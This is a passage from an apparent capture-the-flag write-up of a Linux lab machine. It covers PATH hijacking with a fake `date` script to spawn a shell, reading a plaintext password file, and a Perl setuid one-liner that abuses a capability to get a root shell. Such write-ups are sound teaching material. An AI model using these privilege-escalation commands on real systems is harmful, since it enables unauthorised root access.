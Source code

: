 So, let's do the following:

1. Create a file named `date` with this contents:

```bash
#!/bin/bash
/bin/bash  
```

2. Give the file execution permissions:

```
chmod +x date
```

3. Hijack the path:

```
export PATH=.:$PATH
```

4. Use the binary:

```
./teaParty
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250410174605.png)

We can see we got a shell as `hatter`, let's check our home:

```
hatter@wonderland:/home/hatter$ ls
password.txt
```

We got a password:

```
hatter@wonderland:/home/hatter$ cat password.txt
WhyIsARavenLikeAWritingDesk?
```

We can migrate to ssh with these credentials. Now, let's check our sudo privileges:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250410174723.png)

We got no sudo permissions, weird, maybe we can check more stuff with linpeas:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250410175343.png)


We got capabilities set, **Capabilities** in Linux are a way to grant _specific privileges_ to a process or binary **without giving it full root access**. They break down the monolithic "root vs. non-root" model into **granular permissions**, allowing fine-grained control over what a program can do.

Knowing this, we can exploit it in the following way to get root:

```
/usr/bin/perl -e 'use POSIX qw(setuid); setuid(0); exec "/bin/bash";'
```
